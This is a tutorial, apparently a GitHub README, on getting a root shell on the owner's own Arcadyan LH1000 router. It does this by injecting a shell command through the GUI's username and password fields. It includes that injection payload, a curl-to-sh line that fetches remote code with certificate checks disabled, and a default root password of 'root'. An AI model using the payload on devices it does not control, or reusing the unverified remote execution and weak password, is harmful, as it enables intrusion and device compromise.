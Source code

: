 # Hacking the Arcadyan LH1000

To acquire a Telnet connection on port 23, reset the router and take out any sim cards. Plug in a LAN cable to access the GUI.

Then from a router that is conected to the internet, plug in a LAN cable from it to the WAN on the LH1000. That should get it on the internet. (Note: if the upstream router's LAN domain is the same as that of the LH1000, then change the LAN domain on the LH1000. i.e. if the upstream domain is 192.168.0.0, then change the LH1000 domain to 192.168.1.0)

Go back to the basic screen in the Broadband tab and change user name and password to:

    test.com;CMD=$'\x20-l\x20/bin/sh';telnetd$CMD;exit;

and save. (Note this will only save in the basic screen.)

Then telnet via port 23 and you should have a root shell straight away.

The following items may not survive a reboot, especially in later versions of the firmware, as /etc is just a symbolic link to /tmp/etc, which gets flushed every reboot.

There is no dropbear service under /etc/init.d, hence it does not start up and therefore there's no ssh. You can usually start dropbear just by running

    /usr/sbin/dropbear

In later firmware versions the dropbear_rsa_host_key & dropbear_dss_host_key are missing from /etc/dropbear, which prevents dropbear from starting.

Create the requisite keys by running

    dropbearkey -t rsa -f /etc/dropbear/dropbear_rsa_host_key
    dropbearkey -t dss -f /etc/dropbear/dropbear_dss_host_key

Then start dropbear ust by running

    /usr/sbin/dropbear

Remember to set the root password by running

    echo -e "root\nroot" | passwd

Note: Earlier firmware versions don't have the chpasswd function defined in Busybox.

# Making these changes permanant

To make these dropbear changes permanent, download and extract the archive directly to the device with the following command:

        curl -skL  https://raw.githubusercontent.com/UncleSam1966/LH1000/master/runonce.tar.gz | tar -xzvf - | sh

Then run it manually with `./runonce`.
